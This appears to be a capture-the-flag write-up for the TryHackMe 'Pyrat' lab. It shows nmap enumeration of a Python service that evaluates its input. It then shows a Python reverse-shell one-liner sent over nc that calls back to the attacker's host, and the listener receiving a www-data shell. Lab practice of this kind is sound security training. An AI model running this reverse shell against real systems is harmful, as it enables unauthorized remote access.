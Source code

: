 <code>
https://tryhackme.com/r/room/pyrat
  
**Enumeration**

┌──(duke㉿kali)-[~]
└─$ nmap -A -Pn  10.10.4.202   
Starting Nmap 7.92 ( https://nmap.org ) at 2024-10-10 02:53 CDT
Nmap scan report for 10.10.4.202
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
|     source code string cannot contain null bytes
|   FourOhFourRequest, LPDString, SIPOptions: 
|     invalid syntax (<string>, line 1)
|   GetRequest: 
|     name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     name 'OPTIONS' is not defined
|   Help: 
|_    name 'HELP' is not defined
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.92%I=7%D=10/10%Time=6707880C%P=x86_64-pc-linux-gnu%r(G

**http-server-header: SimpleHTTP/0.6 Python/3.11.2**

┌──(duke㉿kali)-[~]
└─$ nc pyrat.thm 8000                                                                                                                                                                                   
import
invalid syntax (<string>, line 1)
dsd
name 'dsd' is not defined
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.30.202",5002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

**get reverse shell**
┌──(duke㉿kali)-[~]
└─$ nc -lvnp 5002                                                   
listening on [any] 5002 ...
connect to [10.9.30.202] from (UNKNOWN) [10.10.4.202] 57226
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

  
<\code>
